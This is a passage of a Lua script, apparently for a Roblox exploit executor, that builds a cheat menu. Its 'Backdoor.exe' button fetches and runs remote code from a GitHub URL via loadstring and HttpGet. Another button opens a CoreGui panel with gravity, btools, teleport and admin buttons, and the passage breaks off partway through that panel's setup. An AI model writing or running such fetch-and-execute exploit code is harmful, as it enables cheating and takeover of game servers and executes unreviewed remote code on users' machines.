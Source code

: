 button2.Name = "button2"
button2.Parent = main
button2.BackgroundColor3 = Color3.fromRGB(215, 255, 221)
button2.Position = UDim2.new(0.0360168777, 0, 0.67724061, 0)
button2.Size = UDim2.new(0, 132, 0, 50)
button2.Font = Enum.Font.SourceSans
button2.Text = "Backdoor.exe"
button2.TextColor3 = Color3.fromRGB(0, 0, 0)
button2.TextSize = 23.000
button2.TextWrapped = true
button2.MouseButton1Down:connect(function()
	loadstring(game:HttpGet("https://raw.githubusercontent.com/iK4oS/backdoor.exe/master/source.lua"))()
end)

button3.Name = "button3"
button3.Parent = main
button3.BackgroundColor3 = Color3.fromRGB(255, 98, 84)
button3.Position = UDim2.new(0.593119919, 0, 0.235682175, 0)
button3.Size = UDim2.new(0, 132, 0, 50)
button3.Font = Enum.Font.SourceSans
button3.Text = "Nothing"
button3.TextColor3 = Color3.fromRGB(0, 0, 0)
button3.TextSize = 33.000

button4.Name = "button4"
button4.Parent = main
button4.BackgroundColor3 = Color3.fromRGB(220, 255, 223)
button4.Position = UDim2.new(0.592929244, 0, 0.676228404, 0)
button4.Size = UDim2.new(0, 132, 0, 50)
button4.Font = Enum.Font.SourceSans
button4.Text = "ROLF"
button4.TextColor3 = Color3.fromRGB(0, 0, 0)
button4.TextSize = 29.000
button4.MouseButton1Down:connect(function()
	-- Gui to Lua
	-- Version: 3.2

	-- Instances:

	local ScreenGui = Instance.new("ScreenGui")
	local ROLF = Instance.new("Frame")
	local Label = Instance.new("TextLabel")
	local gravity = Instance.new("TextButton")
	local btools = Instance.new("TextButton")
	local tptool = Instance.new("TextButton")
	local admin = Instance.new("TextButton")

	--Properties:

	ScreenGui.Parent = game.CoreGui

	ROLF.Name = "ROLF"
	ROLF.Parent = ScreenGui
	ROLF.BackgroundColor3 = Color3.fromRGB(255, 255, 127)
	ROLF.BorderColor3 = Color3.fromRGB(255, 255, 127)
	ROLF.Position = UDim2.new(0.0601915196, 0, 0.501043856, 0)
	ROLF.Size = UDim2.new(0, 318, 0, 211)
	ROLF.Active = true
	ROLF.Draggable = true
